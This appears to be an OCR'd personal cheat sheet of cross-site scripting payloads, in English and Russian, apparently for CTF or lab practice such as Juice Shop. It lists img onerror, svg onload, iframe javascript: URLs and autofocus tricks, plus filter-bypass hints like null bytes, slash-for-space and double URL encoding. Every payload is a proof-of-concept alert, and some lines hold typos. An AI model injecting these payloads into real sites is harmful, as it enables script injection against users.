 tips for xxs
without parantheses


```js
<img src=1 onerror=alert(1)>
#<img src=1 onerror=alert(1)>
<script>document.querySelector(‘#thm-title’).textContent = I am a hacker'</script>

onfucus="alert(9)" autofocus x="

eval('alert(9)')

“e”.charCodeAt(0).toString(16)

в href javascript:alert

<iframe src="javascript:alert(`xss`)"> 


/#/score-board/

"><svg onload=alert(1)>
<svg/onload=alert()>
<img src onerror=alert(0)>
```
────────────────────────────────────────────
Основные методы вызова js из html
```js
<script>...</script>
<img onerror="..." src="x">
<a href="%20javascript:..."></a>
<iframe src="javascript:...">
<iframe onload='alert``'>
autofocus onfocus="alert()" #%20 %09
javascript://qwe.com/%0aalert()
encode html entety
```

пробелы могу заменяться “/”, тэг необязательно закрывать
double URL encoding

```js
prompt('xss')
%00<script>alert(9)</script>
alert(location.origin)
${alert}
```